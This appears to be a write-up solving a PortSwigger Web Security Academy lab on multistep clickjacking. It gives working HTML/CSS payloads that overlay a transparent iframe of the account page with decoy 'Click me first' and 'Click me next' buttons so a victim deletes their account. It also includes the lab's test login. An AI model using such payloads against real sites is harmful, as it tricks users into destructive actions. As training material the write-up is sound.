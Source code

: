
# 8 - Multistep clickjacking

This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

You can log in to the account yourself using the following credentials: wiener:peter

Note: The victim will be using Chrome so test your exploit on that browser.

---------------------------------------------

References:

- https://portswigger.net/web-security/csrf

- https://portswigger.net/web-security/clickjacking 

---------------------------------------------

Generated link: https://0a910056047f851e816330fc004400af.web-security-academy.net/



![img](images/Multistep%20clickjacking/1.png)


I took the example from https://portswigger.net/web-security/clickjacking:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```

And adapted it to this example:

```
<head>
    <style>
        #target_website {
            position:relative;
            width:100%;
            height:100%;
            opacity:0.0001;
            z-index:2;
            }
        #button1 {
            position:absolute;
            top:530px;
            left:400px;
        }
       #button2 {
            position:absolute;
            top:330px;
            left:570px;
        }
    </style>
</head>
<body>
    <button class="button" id="button1" type="submit">Click me first</button>
    <button class="button" id="button2" type="submit">Click me next</button>
    <iframe id="target_website" src="https://0a910056047f851e816330fc004400af.web-security-academy.net/my-account/">
    </iframe>
</body>
```

If you host it in the exploit server after clicking “Click me first” button it takes to the confirmation page:



![img](images/Multistep%20clickjacking/2.png)

Here, clicking the “Click me next” button the user would be deleted:



![img](images/Multistep%20clickjacking/3.png)

But if you send this, the user does not get deleted, probably because we used width:100% and height:100%, so the payload depends on the screen resolution. I will use a small ifram size with fixed size of 500x600 px:

```
<head>
    <style>
        #target_website {
            position:relative;
            //width:100%;
            //height:100%;
            width:500px;
            height:600px;
            opacity:0.1;
            z-index:2;
            }
        #button1 {
            position:absolute;
            top:495px;
            left:55px;
        }
       #button2 {
            position:absolute;
            top:290px;
            left:200px;
        }
    </style>
</head>
<body>
    <button class="button" id="button1" type="submit">Click me first</button>
    <button class="button" id="button2" type="submit">Click me next</button>
    <iframe id="target_website" src="https://0a910056047f851e816330fc004400af.web-security-academy.net/my-account/">
    </iframe>
</body>
```

Adjust the first button:



![img](images/Multistep%20clickjacking/4.png)

And the second one:



![img](images/Multistep%20clickjacking/5.png)

This time we get the lab solved message!